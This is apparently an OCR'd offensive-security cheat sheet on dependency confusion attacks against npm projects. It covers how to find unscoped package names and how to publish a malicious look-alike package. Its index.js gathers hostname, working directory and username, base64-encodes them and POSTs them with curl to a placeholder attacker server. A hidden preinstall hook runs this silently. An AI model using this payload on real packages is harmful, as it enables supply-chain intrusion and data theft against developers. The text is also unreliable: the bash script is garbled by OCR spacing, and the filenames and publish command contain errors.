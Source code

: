 ### Dependency Confusion - Node.js

**Info**
- In Node, npm packages are stated in the package.json file
- Will look something like this:

```
"devDependencies" : {
    "my_test_framework": "^3.1.0",
    "another_dev_dependency": "1.0.0 - 1.2.0"
}
```
- The `^` symbol indicates versions equal to or higher than the version listed

**Package Scopes**
- Packages can be unscoped (public packages on npm)
    - Specified by listing the package name alone
- Can also be scoped
    - Belongs to a user/organization
    - Must be preceded by the organizations's name
        - `@org-name/package` or `@username/package`

**Exploitation**
- Find packages that are used without a reserved namespace (unscoped)
  - This could look like `org-name/package` (without the `@`)
- Node will then use the public package over the private one, allowing code execution
- [Synyc](https://github.com/snyk-labs/snync) is a good tool to scan for and recognize these packages:

```
# !/bin/bash
# Set the base directory to the current working directory
BASE_DIR =$( pwd )
# Loop through each directory in the base directory
for dir in " $BASE_DIR " /*/; do
    # Check if package . json exists in the directory
    if [ -f "${ dir } package . json " ]; then
        echo " Scanning repository : ${ dir }"
        # Run the npx snyk command in the directory
        npx snync -- directory " $dir "
    else
        echo " No package . json found in : ${ dir }. Skipping ... "
    fi
done
```
- Then you just have to host the package yourself

**Creating a Malicious package**
- Create `index.js`:

```
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;) && b=$(echo $a | base64) && curl -X POST {attacker-server} -d $b" , (error, data, getter) => {
    if (error){
        console.log("error", error.message);
        return;
    }
    if (getter){
        console.log(data);
        return;
    }
    console.log(data);
});
```
- Create `package.json`:

```
{
    "name":"{vulnerable_package_name}",
    "version":"{relevant_version_or_higher_if_^}",
    "description":"",
    "main":"main.js",
    "scripts":{
        "preinstall":"node inddex.js > /dev/null 2>&1",
        "test":"echo \"Error: no test specified\""
    },
    "author":"asdasfasd.asfasdasfasd",
    "license":"MIT"
}
```

- Then just run `npm public --access=public` and monitor attacker server